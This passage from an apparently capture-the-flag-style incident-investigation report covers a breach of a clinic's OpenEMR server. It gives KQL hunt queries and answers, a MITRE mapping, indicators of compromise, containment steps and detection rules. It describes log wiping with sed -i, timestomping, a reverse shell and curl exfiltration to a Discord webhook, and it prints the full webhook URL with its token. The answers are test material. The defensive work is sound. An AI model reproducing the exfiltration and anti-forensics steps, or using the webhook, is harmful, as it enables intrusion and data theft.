> *(Derived from 4.26 query — ProcessCommandLine confirms `sed -i` usage.)*

**Screenshot:**
> 

**Analyst Notes:**
Answer: `sed`
`sed -i` (in-place stream editor) is a standard Unix text processing utility. Its use for log tampering is stealthy because it is ubiquitous in legitimate scripts and generates no interactive editor process tree.

---

### 4.28 — Log Timestomp: Forged Timestamp on /var/log/messages

**Finding:**
The attacker backdated `/var/log/messages` to blur the timeline of their activity. The forged timestamp was **`2026-02-06 12:00:00`**.

**KQL:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2026-02-04) .. datetime(2026-02-15))
| where DeviceName has "rocky83"
| where ProcessCommandLine has_any ("/var/log/messages") and ProcessCommandLine contains "touch"
| project TimeGenerated, ProcessCommandLine, InitiatingProcessCommandLine
| sort by TimeGenerated asc
```

**Screenshot:**
> 

**Analyst Notes:**
Answer: `2026-02-06 12:00:00`
Timestamp of the `touch` execution: `2026-02-11 16:16:47 UTC`. Backdating to `2026-02-06` places the file's apparent last-modified date before the bulk of attacker activity, making timeline reconstruction harder for analysts relying solely on filesystem metadata.

---

### 4.29 — EDR Alert Classification: MITRE Technique Identifiers

**Finding:**
The EDR raised its own alert on the cleanup and timestomping activity. The technique classification recorded in the alert's `AttackTechniques` field was **`Indicator Removal (T1070)` / `Timestomp (T1070.006)`**.

**KQL:**
```kql
AlertInfo
| where TimeGenerated between (datetime(2026-02-04) .. datetime(2026-02-15))
| where AttackTechniques has_any ("T1070", "T1099", "T1565")
| project TimeGenerated, AttackTechniques
| sort by TimeGenerated asc
```

**Screenshot:**
> 

**Analyst Notes:**
Answer: `Indicator Removal (T1070)`, `Timestomp (T1070.006)`
Alert timestamp: `2026-02-11 04:16:01 UTC`. The EDR correctly classified both the log deletion and the `touch`-based timestamp forgery. T1070.006 (Timestomp) is a sub-technique of T1070 (Indicator Removal), covering modification of file timestamps to confuse forensic analysis.

---

## 5. MITRE ATT&CK Mapping

| Tactic | Technique | ID | Evidence |
|---|---|---|---|
| Initial Access | Valid Accounts | T1078 | `it.admin` credentials used from external IPs |
| Discovery | System Owner/User Discovery | T1033 | `w` command — PID 17507 |
| Discovery | System Information Discovery | T1082 | `cat /etc/os-release` + 3 other release files |
| Discovery | File and Directory Discovery | T1083 | `find /var/lib/docker/volumes -maxdepth 3 -type f` |
| Privilege Escalation | Sudo and Sudo Caching | T1548.003 | `sudo -i` |
| Credential Access | Unsecured Credentials — Files | T1552.001 | Read `/etc/openemr/audit_export.env` |
| Persistence | Create Account | T1136.001 | `system` account created via `vipw` |
| Persistence | Systemd Service | T1543.002 | `integration-monitor.service` |
| Command and Control | Encrypted Channel | T1573 | Python reverse shell to `20.62.27.80:443` |
| Exfiltration | Exfiltration Over Web Service | T1567 | `curl` to Discord webhook |
| Defense Evasion | Indicator Removal — Clear Linux Logs | T1070.002 | 12 `sed -i` operations on `/var/log/secure` and `/var/log/messages` |
| Defense Evasion | Timestomp | T1070.006 | `touch` backdating `/var/log/messages` to `2026-02-06 12:00:00` |
| Defense Evasion | Masquerading | T1036 | Service and directory names mimic legitimate tooling |

---

## 6. Indicators of Compromise

### Network IOCs

| Type | Value | Context |
|---|---|---|
| IP | `68.53.47.150` | First external SSH logon to rocky83 |
| IP | `37.19.221.234` | Suspicious `it.admin` session (Q03 anchor) |
| IP | `149.40.62.16` | Subsequent operator session |
| IP | `20.62.27.80` | C2 endpoint / failed SFTP target |
| IP | `104.209.148.246` | C2 health-check target (wget --spider) |
| IP | `162.159.135.232` | Discord/Cloudflare exfil destination |
| Port | `443` | All C2 and exfil traffic |
| URL | `https://discord.com/api/webhooks/1471960320636620832/he162lRQsMJ3kKOVBNeiHYutbubwZ0sC-vq7A_phLZx-q4VOS88q4xDOvhxrBqy6nu9K` | Discord exfil webhook |

### Host IOCs

| Type | Value | Context |
|---|---|---|
| Account | `it.admin` | Compromised admin account |
| Account | `system` | Unauthorised backdoor account |
| Account | `streetrack` | Attacker SFTP username on C2 |
| File | `/opt/backup/scripts/backup_manifest.sh` | Targeted trusted script |
| File | `/var/lib/integrations/integration_state_2026-02-10_22-00-01.tar.gz` | Staged exfil archive |
| File | `/etc/systemd/system/integration-monitor.service` | C2 persistence mechanism |
| File | `/etc/openemr/audit_export.env` | Accessed secrets file |
| Path | `/var/lib/docker/volumes/r0ckyyy335_mariadb_data/_data` | Physical DB storage accessed |
| Path | `/var/lib/integrations/` | Attacker staging directory |

### File Hashes

| SHA256 | Context |
|---|---|
| `a7b78ff3f501951cd8455697ef1b6dc1832ae42a9433926a8504d6ad719d729d` | `docker` binary (last session command) |
| `dbb794466563134e5119efa47fd41c4ffb31a8104b59bba11eb630f55238abd0` | `vipw` binary (backdoor account creation) |
| `f71ea834a9be9fb0e90c7b496e5312072fffedf1d1c0377957e05714bdac37b8` | `integration-monitor.service` (C2 activation version) |

---

## 7. Containment Actions

1. **Disable `it.admin`** — Immediately lock or remove the compromised account pending credential rotation and investigation of how it was obtained.
2. **Delete `system` account** — Remove the unauthorised backdoor account created via `vipw`. Audit `/etc/passwd`, `/etc/shadow`, and `/etc/group` for any other unauthorised entries.
3. **Remove `integration-monitor.service`** — Disable and delete the malicious systemd service. Run `systemctl daemon-reload` after removal.
4. **Rotate all secrets in `/etc/openemr/audit_export.env`** — Treat all credentials in that file as fully compromised. Rotate API keys, DB passwords, and any service tokens referenced.
5. **Revoke the Discord webhook** — The webhook URL is a live exfil channel. Revoke it immediately via the Discord server settings.
6. **Block external IPs at perimeter** — Block `68.53.47.150`, `37.19.221.234`, `149.40.62.16`, `20.62.27.80`, and `104.209.148.246` at the network edge.
7. **Rebuild `/var/log/secure` and `/var/log/messages`** from backup or ship raw logs to SIEM before further tampering occurs.
8. **Isolate `rocky83`** from the network if live patient data access cannot be ruled out during the window `2026-02-04` to `2026-02-13`.

---

## 8. Detection Engineering Recommendations

1. **Alert on `sudo -i` from SSH sessions** — Escalation from an interactive SSH session to a root login shell should trigger a high-priority alert, particularly when the originating IP is external.

2. **Monitor writes to `/etc/systemd/system/`** — Any new `.service` file created outside of a sanctioned change window should page on-call immediately.

3. **Detect direct edits to `/etc/passwd` / `/etc/shadow`** — Alert when `vipw`, `vim`, or any non-`useradd`/`usermod` process writes to identity files. This bypasses standard account-creation detections.

4. **Flag `curl` or `wget` to Discord/Telegram/Slack webhook URLs from servers** — Outbound webhook calls from production hosts are almost never legitimate and should be blocked or alerted at the proxy layer.

5. **Detect `sed -i` on log files** — Any process that uses `sed -i` against files under `/var/log/` should be treated as a potential indicator removal attempt.

6. **Alert on `touch` with explicit timestamps on log files** — Timestomping of files under `/var/log/` is a near-certain indicator of evidence tampering.

7. **Monitor reads of `.env` files outside application directories** — Secrets files accessed by a user process (rather than the application's own service account) indicate credential harvesting.

8. **Egress filtering for SFTP/SCP to non-approved destinations** — The initial SFTP exfil attempt to `20.62.27.80` was blocked by network controls, which was effective. Ensure these rules are consistently applied and logged.

---

## 9. Lessons Learned

**What worked:**
- Network egress controls successfully blocked the first SFTP exfiltration attempt, forcing the attacker to pivot and extending the dwell time.
- EDR telemetry was rich enough to reconstruct the full attack chain, including process command lines, SHA256 hashes, and network connection metadata.
- The EDR generated a correct MITRE-classified alert (T1070 / T1070.006) on the defense evasion activity.

**What did not work:**
- No alert fired on the initial external SSH logon or on the subsequent `sudo -i` escalation.
- The creation of a new local account (`system`) via `vipw` went undetected.
- A new systemd service was installed without triggering a change-management alert.
- The attacker successfully exfiltrated data via a legitimate SaaS platform (Discord) after the direct channel was blocked — demonstrating that protocol-level blocking alone is insufficient.

**Recommended process improvements:**
- Implement a privileged access workstation (PAW) model for `it.admin` to restrict source IPs for SSH.
- Enforce SSH key-based authentication only and disable password auth for all admin accounts.
- Deploy file integrity monitoring (FIM) on `/etc/passwd`, `/etc/shadow`, `/etc/systemd/system/`, and all `.env` config files.
- Establish a cloud-native SIEM pipeline that ships logs in real time, reducing the impact of local log tampering.
- Conduct regular threat hunting against Docker environments, specifically focusing on `docker inspect`, volume enumeration, and container escape patterns.

---

*Report compiled from LIVEHunt 07 — Rocky Clinic OpenEMR Breach investigation.*
*Investigation window: 2026-02-04 to 2026-02-14 UTC.*
